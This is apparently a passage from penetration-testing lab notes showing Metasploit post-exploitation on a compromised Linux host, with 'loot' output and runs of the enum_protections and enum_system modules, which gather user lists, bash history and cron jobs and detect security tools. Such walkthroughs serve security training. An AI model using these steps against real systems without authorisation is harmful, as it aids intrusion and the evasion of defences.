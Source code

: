 ```bash
loot
cat /root/.msf4/loot/20230422104739_Linux_PostExp_192.215.55.3_linux.enum.netwo_707609.txt

    search members.linode.com
    nameserver 127.0.0.11
    options edns0 trust-ad ndots:0
```

- Check for **protection/security systems**

```bash
search enum_protections
use post/linux/gather/enum_protections
info
# Description:
#   This module checks whether popular system hardening mechanisms are 
#   in place, such as SMEP, SMAP, SELinux, PaX and grsecurity. It also 
#   tries to find installed applications that can be used to hinder, 
#   prevent, or detect attacks, such as tripwire, snort, and apparmor. 
#   This module is meant to identify Linux Secure Modules (LSM) in 
#   addition to various antivirus, IDS/IPS, firewalls, sandboxes and 
#   other security related software.
set SESSION 3
run
```

![Metasploit - post/linux/gather/enum_protections](.gitbook/assets/image-20230422125210727.png)

```bash
notes
# check above information stored within the MSFdb
```

- Enumerate the **system**

```bash
search enum_system
use post/linux/gather/enum_system
info
# Description:
#   This module gathers system information. We collect installed 
#   packages, installed services, mount information, user list, user 
#   bash history and cron jobs
set SESSION 3
run
```
